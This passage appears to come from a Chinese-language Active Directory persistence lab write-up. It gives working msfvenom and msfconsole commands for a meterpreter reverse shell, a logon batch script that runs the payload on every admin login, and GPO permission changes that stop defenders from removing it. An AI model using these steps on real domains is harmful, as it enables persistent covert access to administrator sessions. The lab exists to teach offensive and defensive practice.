- 登录脚本部署 - 这将确保每当用户在域中的主机上进行身份验证时，我们都会收到一个 shell 回调。

有许多不同的钩子可以部署。你可以尝试使用 GPOs 来了解其他钩子。由于我们在 Exploiting AD 房间中已经使用了第一个钩子，即限制组成员资格，现在让我们专注于第二个钩子。虽然拥有对所有主机的访问权限是不错的，但如果能确保在管理员主动使用它们时获得访问权限会更好。为此，我们将创建一个链接到管理员 OU 的 GPO，这将使我们能够在其中一个管理员验证到主机时每次都获得一个 shell。

### 准备工作

在我们创建 GPO 之前，首先需要创建我们的 shell、监听器和实际的批处理文件，用于执行我们的 shell。让我们从生成一个基本的可执行 shell 开始：

```shell
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=persistad lport=4445 -f exe > <username>_shell.exe
```

确保在二进制文件名中添加你的用户名，以避免覆盖其他用户的 shell。Windows 允许我们通过登录 GPO 执行批处理或 PowerShell 脚本。批处理脚本通常比 PowerShell 脚本更稳定，所以让我们创建一个将我们的可执行文件复制到主机并在用户进行身份验证时执行它的批处理脚本。在 AttackBox 上创建名为 `<username>_script.bat` 的以下脚本：

```shell
copy \\za.tryhackme.loc\sysvol\za.tryhackme.loc\scripts\<username>_shell.exe C:\tmp\<username>_shell.exe && timeout /t 20 && C:\tmp\<username>_shell.exe
```

你会看到脚本使用 `&&` 将三个命令连接在一起。脚本将把二进制文件从 SYSVOL 目录复制到本地机器，然后等待 20 秒，最后执行该二进制文件。

我们可以使用 SCP 和管理员凭据将这两个脚本复制到 SYSVOL 目录：

```shell title="Terminal"
$thm scp am0_shell.exe za\\Administrator@thmdc.za.tryhackme.loc:C:/Windows/SYSVOL/sysvol/za.tryhackme.loc/scripts/

$thm scp am0_script.bat za\\Administrator@thmdc.za.tryhackme.loc:C:/Windows/SYSVOL/sysvol/za.tryhackme.loc/scripts/
```

最后，让我们启动 MSF 监听器：

```shell title="Terminal"
msfconsole -q -x "use exploit/multi/handler; set payload windows/x64/meterpreter/reverse_tcp; set LHOST persistad; set LPORT 4445;exploit"
```

准备工作完成后，我们终于可以创建执行此脚本的 GPO。你需要远程桌面登录到 THMWRK1，并使用以管理员身份运行的 runas 窗口进行下一步操作。

### GPO 创建

第一步使用我们的域管理员账户打开组策略管理控制台：

- 在以 runas 方式生成的终端中，输入 MMC 并按回车键。
- 点击文件 -> 添加 / 移除管理单元...
- 选择组策略管理管理单元，然后点击添加
- 点击确定

你应该能够看到 GPO 管理器：

<div style={{textAlign:'center'}}>



</div>

虽然从技术上讲，我们可以将内容写入默认域策略，这样应该会传播到所有 AD 对象，但为了展示过程，我们会采取更具针对性的方法。你之后可以尝试修改来将更改应用到整个域。

我们将编写一个将应用于所有管理员的 GPO，所以右键点击管理员 OU，然后选择在此域中创建 GPO 并链接它。给你的 GPO 命名，比如 `username - persisting GPO` ：

<div style={{textAlign:'center'}}>


</div>

右键点击你的策略，选择 “强制”。这将确保你的策略会应用，即使存在冲突的策略。这有助于确保我们的 GPO 优先生效，即使蓝队编写了一个会移除我们更改的策略。现在你可以右键点击你的策略，然后选择 “编辑”：

<div style={{textAlign:'center'}}>



</div>

让我们回到组策略管理编辑器：

- 在用户配置下，展开策略 -> Windows 设置。
- 选择脚本（登录 / 注销）。
- 右键点击登录 -> 属性
- 选择脚本选项卡。
- 点击添加 -> 浏览。

让我们导航至我们存储批处理和二进制文件的位置：

<div style={{textAlign:'center'}}>


</div>

选择你的批处理文件作为脚本，然后点击打开和确定。点击应用和确定。这将确保每当管理员（层级 2、1 和 0）之一登录到任何计算机时，我们都会收到回调。

为了模拟这个过程，让我们重置层级 1 管理员帐户之一的密码并验证到一个服务器上。使用你在之前 AD 房间学到的任何技术来重置层级 1 管理员的密码。完成后，记得启动你的 MSF 多处理程序，并让我们通过远程桌面连接到 THMSERVER1 或 THMSERVER2 来测试一下！

使用你的层级 1 管理员凭据，远程桌面连接到其中一个服务器。如果再等待一分钟，你应该会在多处理程序中收到回调：

```shell title="Terminal"
msf5 exploit(multi/handler) > run
Started reverse TCP handler on 172.31.16.251:4445

[*] Sending stage (176195 bytes) to 172.31.1.201
[*] Meterpreter session 1 opened (172.31.16.251:4445 -> 172.31.1.201:63695) at 2022-05-07 10:06:28 +0100

meterpreter >
```

:::tip

你需要创建一个登录事件来执行 GPO。如果你只是关闭了远程桌面会话，那只是执行了断开连接，这意味着不会触发 GPO。确保选择如下所示导航到注销，以终止会话。这将确保在你重新验证时生成一个登录事件：

<div style={{textAlign:'center'}}>


</div>

:::

### 明藏暗行

现在我们知道我们的持久化正在发挥作用，是时候确保蓝队不能轻易移除我们的持久化了。回到你的 MMC 窗口，点击你的策略，然后点击委派：

<div style={{textAlign:'center'}}>


</div>

默认情况下，所有管理员都有编辑 GPO 的权限。让我们移除这些权限：

- 右键点击 “企业域控制器” 并选择 “编辑设置、删除、修改安全性”。
- 点击除了 “认证用户” 之外的所有其他组，并点击移除。

你应该得到如下所示的委派设置：

<div style={{textAlign:'center'}}>


</div>

点击 “高级”，然后移除 “创建的 所有者” 的权限：

<div style={{textAlign:'center'}}>



</div>

默认情况下，所有经过身份验证的用户必须具有读取策略的权限。这是必需的，否则用户在验证时无法读取并应用用户策略。如果我们没有我们的登录脚本，我们也可以移除这个权限，以确保几乎没有人能够读取我们的策略。

我们可以用域计算机替换 “认证用户”，以确保计算机仍然能够读取和应用策略，但阻止任何用户读取策略。让我们这样做进行测试，但请记住，这可能导致你在验证时无法收到 shell 回调，因为用户将无法读取 PowerShell 脚本，所以在执行这些步骤之前确保测试你的 shell。一旦操作完成，将无法恢复：

- 点击添加。
- 输入 “域计算机”，点击检查名称，然后点击确定。
- 选择读取权限，点击确定。
- 点击 “认证用户”，然后点击移除。

在执行这些步骤后，你将收到无法读取自己策略的错误提示：

<div style={{textAlign:'center'}}>



</div>

你也可以看到侧边栏显示我们无法再读取此策略：

<div style={{textAlign:'center'}}>



</div>

通过执行这些步骤，即使拥有最高级别的权限，蓝队也无法删除我们的 GPO，除非他们冒充域控制器的机器账户。这使得首先发现变得格外困难，即使他们发现了 GPO，要删除它也将非常困难。我们甚至没有所需的权限来与我们的策略进行交互，所以一个策略将会一直留在那里，直到进行网络重置。你可以通过远程桌面连接到 THMSERVERS 中的一个来验证 GPO 仍然被应用了。

:::info

哪些 MMC 管理单元可用于管理 GPO？

```plaintext
Group Policy Management
```

使用哪个子 GPO 向用户和组授予对 GPO 应用到的主机上的本地组的访问权限？

```plaintext
Restricted groups
```

使用哪个选项卡来修改用户和组对 GPO 的安全权限？

```plaintext
Delegation
```

:::

## Conclusion

在 AD 中有几种不同的持久化方式。其中一些技术的持久性更好。为了确保蓝队无法移除你的持久化，你需要对持久化方式进行创造性思考。此外，你不应该等到完全掌控整个域之后才部署持久化。在每一轮横向移动和权限提升之后，都应该部署持久化。

### 额外的持久化技术

在这个网络中，我们涵盖了几种可用于在 AD 中持久化的技术。这绝不是一个详尽的列表。以下是一些同样值得一提的持久化技术：

- [骨架密钥（Skeleton keys）](https://stealthbits.com/blog/unlocking-all-the-doors-to-active-directory-with-the-skeleton-key-attack/)- 使用 Mimikatz，我们可以部署一个骨架密钥。Mimikatz 创建了一个默认密码，可以用于域中的任何账户。正常密码仍然有效，使得很难发现这次攻击。这个默认密码可以用来冒充域中的任何账户。
- [目录服务恢复模式（DSRM）](https://adsecurity.org/?p=1714)- 域控制器有一个内部的紧急管理员账户，称为 DSRM 账户。这个密码在服务器被提升为 DC 时设置，并且很少更改。在紧急情况下，这个密码用于恢复 DC。攻击者可以使用 Mimikatz 提取这个密码，并使用它获得对环境中域控制器的持久性管理员访问权限。
- [恶意安全支持提供程序（SSP）](https://adsecurity.org/?p=1760)- 利用 SSP 接口，可以添加新的 SSP。我们可以将 Mimikatz 的 mimilib 添加为一个 SSP，用于记录所有认证尝试的凭据到一个文件中。我们可以指定一个网络位置用于记录，这样 mimilib 将在用户在受 Compromised 的主机上进行身份验证时发送凭据给我们，提供持久性。
- [计算机账户](https://adsecurity.org/?p=2753) - 机器账户的密码通常每 30 天更换一次。但是，我们可以修改机器账户的密码，这将停止自动更换。与此同时，我们可以授予机器账户对其他机器的管理员访问权限。这将允许我们将机器账户用作普通账户，唯一的持久性迹象是该账户在其他主机上具有管理员权限，这在 AD 中通常是正常行为，因此可能不被发现。

值得注意的是，本房间侧重于 AD 中的持久化技术。还有一些本地持久化技术也可以让主机保持持久性。如果这些主机加入了域，也将允许在 AD 中实现持久性。

### 缓解措施

AD 持久化对抗起来可能很麻烦。在某些情况下，持久化可能根深蒂固，需要完全重建域。但是，我们可以采取一些措施来检测已部署的持久化：

- 异常账户登录事件是持久化的最常见警报。任何时候，凭据突破分层模型，可能是持久性的结果。
- 对于提到的每种持久化技术，都可以编写特定的检测规则，比如当机器账户的密码更改、ACL 权限更新、或者创建新的 GPO 时。
- 对抗持久化的最佳防御是保护特权资源。尽管低权限访问可以用于部署持久性，但真正可怕的技术只有在攻击者获得域的特权访问后才会变得可用。

这就结束了 AD 模块。我们学习了 AD 的基础知识，如何侵入 AD 环境，列举它，执行利用，并通过持久化深度植根。这个模块只是一个介绍。关于 AD 安全还有很多可以学习的。现在是时候展开自己的探索了！
